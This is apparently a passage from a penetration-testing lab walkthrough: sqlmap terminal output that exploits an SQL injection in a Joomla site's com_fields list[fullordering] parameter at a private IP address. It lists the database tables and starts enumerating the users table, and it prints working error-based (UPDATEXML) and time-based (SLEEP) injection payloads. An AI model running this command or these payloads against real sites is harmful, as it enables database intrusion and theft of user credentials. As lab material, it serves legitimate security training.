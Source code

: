 ```jsx
| #__template_styles  |
| #__ucm_base         |
| #__ucm_content      |
| #__ucm_history      |
| #__update_sites_ext |
| #__update_sites     |
| #__updates          |
| #__user_keys        |
| #__user_notes       |
| #__user_profiles    |
| #__user_usergroup_m |
| #__usergroups       |
| #__users            |
| #__utf8_conversion  |
| #__viewlevels       |
+---------------------+

[02:17:21] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[02:17:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.122.186'
[02:17:21] [WARNING] you haven't updated sqlmap for more than 362 days!!!

[*] ending @ 02:17:21 /2021-05-29/

root@kali:~# **sqlmap -u "http://192.168.122.186/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=update.xml"-p list[fullordering] -D joomladb -T '#__users' --columns**
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:17:40 /2021-05-29/

[02:17:40] [INFO] resuming back-end DBMS 'mysql' 
[02:17:40] [INFO] testing connection to the target URL
[02:17:41] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=t9me8puup77...k8usmk35a3'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(5655,CONCAT(0x2e,0x7171716a71,(SELECT (ELT(5655=5655,1))),0x71627a7a71),1990))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5736 FROM (SELECT(SLEEP(5)))epcn)
---
[02:17:43] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[02:17:43] [INFO] fetching columns for table '#__users' in database 'joomladb'
[02:17:43] [WARNING] unable to retrieve column names for table '#__users' in database 'joomladb'
do you want to use common column existence check? [y/N/q] y
```
